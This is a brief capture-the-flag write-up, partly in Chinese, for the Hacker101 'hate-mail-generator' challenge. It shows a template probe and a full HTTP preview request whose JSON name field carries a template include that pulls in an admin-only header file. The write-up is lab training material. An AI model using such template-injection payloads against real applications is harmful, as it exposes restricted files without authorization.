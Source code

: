 # hate-mail-generator

Sending letters is so slow! Now the grinch sends his hate mail by email campaigns! Try and find the hidden flag!

## Guess What

例子Guess What的内容：  
```
{{template:cbdj3_grinch_header.html}} Hi {{name}}..... Guess what..... <strong>YOU SUCK!</strong>{{template:cbdj3_grinch_footer.html}}
```

在create->previes尝试其他template文件：  
```
{{template:test}}
```

## preview
```
POST /hate-mail-generator/new/preview/ HTTP/1.1
Host: f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com
Content-Length: 126
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="105", "Not)A;Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com/hate-mail-generator/new/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

preview_markup=Hello {{name}}+....&preview_data={"name":"{{template:38dhs_admins_only_header.html}}","email":"alice@test.com"}
```

